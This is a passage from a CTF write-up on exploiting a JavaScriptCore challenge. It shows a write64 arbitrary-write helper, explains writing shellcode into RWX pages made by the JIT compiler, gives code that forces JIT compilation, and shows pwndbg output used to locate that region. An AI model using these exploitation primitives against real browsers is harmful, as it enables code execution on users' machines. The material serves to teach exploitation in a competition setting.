 Now we're practically done, we need to create a helper function that just writes, but that's pretty simple now with all this preparation:
```javascript
write64 = function (where, what) {
     f64[0] = where
     u32[0] += 0x10
     hax[1] = f64[0]
     victim.a = what
}
```

### Part 2: What to write
So now we can write, but what do we write, and where? Well, the thing is, this is almost just plain old pwn now. We can actually just write shellcode! We just need a Read-Write-Executable page, but how in the world are we going to find that? I thought those were extinct. However, a nice thing about JavaScript engines is that they all use Just-In-Time (JIT) compiling, which requires writing instructions into a page and later executing them. See an issue here? Write AND execute? This means that JSC will allocate memory regions that are RWX. We want to write here! But how do we find such a region? Also, how do we get such a region? 

#### Part 2.1: JIT gud n00b
The JIT compiler for JavaScript is pretty cool and can JIT your code at different levels, depending on how many times the code needs to run. Code that needs to run a lot? That needs to be fast! Makes sense! So to get some jitted code, we simply run a function many times:
```javascript
function makeJITCompiledFunction() {
    // Some code to avoid inlining...
    function target(num) {
        for (var i = 2; i < num; i++) {
            if (num % i === 0) {
                return false;
            }
        }
        return true;
    }

    // Force JIT compilation.
    for (var i = 0; i < 1000; i++) {
        target(i);
    }
    for (var i = 0; i < 1000; i++) {
        target(i);
    }
    for (var i = 0; i < 1000; i++) {
        target(i);
    }
    return target;
}
```
I just stole this from saelo's paper and found out quickly enough that it worked finely.

#### Part 2.2: Finding the JIT
Now, I assumed, hey! Let's just run addrof on this function and we would have the RWX segment, but that's not quite how the JavaScript engines work, probably for a plethora of reasons. After some time, I found out about pwndbg's function called "leakfind", and quite quickly I got a bunch of targets:
```python
pwndbg> leakfind 0x00007fffb34e5f00

...

0x7fffb34e5f00+0x28 —▸ 0x7ffff38b1000+0x0 —▸ 0x55555557a718+0x0 —▸ 0x555555572210 /home/cave/CTF/fe-ctf/finals/my-first-browserpwn/my-first-browserpwn/jsc
```